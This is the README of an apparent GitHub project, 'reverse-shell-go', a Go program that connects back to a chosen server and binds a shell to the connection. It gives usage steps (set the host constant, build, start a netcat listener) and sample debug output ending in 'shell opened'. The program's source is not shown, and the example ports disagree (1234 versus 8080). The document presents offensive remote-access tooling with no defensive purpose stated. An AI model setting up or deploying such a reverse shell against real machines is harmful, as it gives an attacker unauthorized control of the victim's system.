 # reverse-shell-go

### Simple reverse shell written in go

To use: 
- Set the host address near the top to your server. `const host = "127.0.0.1:1234`
- Build using `go build main.go`
- Start listening on the server using `netcat -l -p 8080`

Example debug output
```
github.com/orf1/reverse-shell-go
attempting to establish tcp connection with server
dial tcp 127.0.0.1:8080: connect: connection refused
attempting to establish tcp connection with server
connection established
detecting operating system
detected mac or linux, using /bin/sh
binding standard interfaces to connection
shell opened
```
<img width="572" alt="Screen Shot 2022-08-08 at 2 47 48 PM" src="https://user-images.githubusercontent.com/39539212/183520624-33592bda-2509-435b-8eb3-a5b04f590eb7.png">
